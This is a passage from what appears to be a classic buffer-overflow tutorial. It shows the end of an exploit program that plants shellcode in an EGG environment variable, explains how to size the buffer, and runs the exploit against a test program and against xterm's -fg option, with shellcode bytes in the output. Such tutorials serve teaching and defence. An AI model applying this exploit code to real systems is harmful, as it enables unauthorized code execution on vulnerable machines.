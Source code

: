   buff[bsize - 1] = '\0';

  memcpy(buff,"EGG=",4);
  putenv(buff);
  system("/bin/bash");
}
------------------------------------------------------------------------------

   A good selection for our buffer size is about 100 bytes more than the size
of the buffer we are trying to overflow.  This will place our code at the end
of the buffer we are trying to overflow, giving a lot of space for the NOPs,
but still overwriting the return address with the address we guessed.  The
buffer we are trying to overflow is 512 bytes long, so we'll use 612.  Let's
try to overflow our test program with our new exploit:

------------------------------------------------------------------------------
[aleph1]$ ./exploit3 612
Using address: 0xbffffdb4
[aleph1]$ ./vulnerable $EGG
$
------------------------------------------------------------------------------

   Whoa!  First try!  This change has improved our chances a hundredfold. 
Let's try it now on a real case of a buffer overflow.  We'll use for our
demonstration the buffer overflow on the Xt library.  For our example, we'll 
use xterm (all programs linked with the Xt library are vulnerable). You must
be running an X server and allow connections to it from the localhost.  Set
your DISPLAY variable accordingly.

------------------------------------------------------------------------------
[aleph1]$ export DISPLAY=:0.0
[aleph1]$ ./exploit3 1124
Using address: 0xbffffdb4
[aleph1]$ /usr/X11R6/bin/xterm -fg $EGG
Warning: Color name "^1FF
                           
                            V

1@/bin/sh


















^C
[aleph1]$ exit
[aleph1]$ ./exploit3 2148 100
Using address: 0xbffffd48
[aleph1]$ /usr/X11R6/bin/xterm -fg $EGG
Warning: Color name "^1FF
                           